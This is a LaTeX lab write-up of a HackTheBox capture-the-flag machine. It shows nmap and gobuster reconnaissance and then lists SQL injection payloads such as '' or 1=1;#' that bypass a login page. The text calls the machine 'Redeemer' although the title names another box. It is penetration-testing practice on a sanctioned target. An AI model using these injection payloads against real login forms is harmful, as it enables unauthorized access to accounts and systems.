\documentclass[conference]{IEEEtran}
\IEEEoverridecommandlockouts
% The preceding line is only needed to identify funding in the first footnote. If that is unneeded, please comment it out.
\usepackage{cite}
\usepackage{amsmath,amssymb,amsfonts}
\usepackage{graphicx}
\usepackage{textcomp}
\usepackage{xcolor}
\usepackage[hyphens]{url}
\usepackage{hyperref}
\usepackage{listings}
\def\BibTeX{{\rm B\kern-.05em{\sc i\kern-.025em b}\kern-.08em
    T\kern-.1667em\lower.7ex\hbox{E}\kern-.125emX}}

\newcommand{\rom}[1]{\uppercase\expandafter{\romannumeral #1\relax}}

\begin{document}

\onecolumn


\title{HackTheBox: WhatIsIt?}

\author{\IEEEauthorblockN{Lennart Buhl}
\IEEEauthorblockA{\textit{Department of Computer Science} \\
\textit{University of St. Thomas}\\
\textit{September, 2023}}}

\maketitle



\begin{abstract}

\end{abstract}



\begin{IEEEkeywords}
programming, cybersecurity, security, pentesting
\end{IEEEkeywords}


\section{Introduction}
Redeemer is located at IPv4 10.129.105.150. Which we can access through the HackTheBox OpenVPN gateway.
We achieve this by simply running this command in a shell:
\begin{scriptsize}
\begin{verbatim}
sudo openvpn starting_point_{user}.ovpn
\end{verbatim}
\end{scriptsize}

\\
\textit{I will now switch to root shell.}
\\

Once we are on the VPN, we scan the machine via nmap:
\begin{scriptsize}
\begin{verbatim}
root@ghost:~# nmap -sC -sV 10.129.105.150
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 13:50
Nmap scan report for 10.129.105.150
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect
results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.90
seconds

\end{verbatim}
\end{scriptsize}

Okay, based on what nmap is showing, we can safely assume that we are dealing with a website. Let's visit the website \url{http://10.129.105.150}.

\begin{figure}[htb]

\includegraphics[scale=0.1]{login_display.png}
\centering
\end{figure}


We figured that there might be a way to "skip" the login portion of the website by simply changing the directory past the login page.
Therefore, we used the tool gobuster \cite{gobuster} to bust through the directories and find a way to pass the login page.
Additionally, we downloaded the SecLists repository \cite{seclists}, where we used the "SecLists/Discovery/Web-Content/directory-list-2.3-small.txt" wordlist to iterate through the website's directories to find a match.


\begin{scriptsize}
\begin{verbatim}
root@ghost:~# gobuster dir --url http://10.129.105.150/ --wordlist
{path/to/directory}/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.105.150/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                {path/to/directory}/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.105.150/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.105.150/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.105.150/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.105.150/vendor/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.105.150/fonts/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
\end{verbatim}
\end{scriptsize}


The discovered directories did not show us anything interesting. So, now we can do some input validation testing, to see if we get any weird behavior when we enter special characters in the username section.


\begin{scriptsize}
\begin{verbatim}
1) ' or 1=1;
2) ';
3) ' AND 1=1;
4) ' or 1=1;#
\end{verbatim}
\end{scriptsize}

We find that 4) works, and we are able to bypass the login page via a SQl injection. \footnote{Note: One must enter a password in combination to the special characters to go through the login page.}



\begin{figure}[htb]

\includegraphics[scale=0.3]{flag.png}
\centering
\end{figure}


\begin{thebibliography}{00}

\bibitem{gobuster} Oj. “Gobuster: Directory/File, DNS and VHost Busting Tool Written in Go.” GitHub, \url{https://github.com/OJ/gobuster/releases/tag/v3.6.0}.
\bibitem{seclists} Daniel Miessler. “SecLists Is the Security Tester’s Companion. It’s a Collection of Multiple Types of Lists Used during Security Assessments, Collected in One Place. List Types Include Usernames, Passwords, Urls, Sensitive Data Patterns, Fuzzing Payloads, Web Shells, and Many More.” GitHub, \url{https://github.com/danielmiessler/SecLists/releases/tag/2023.2}.

\end{thebibliography}
\vspace{12pt}


\end{document}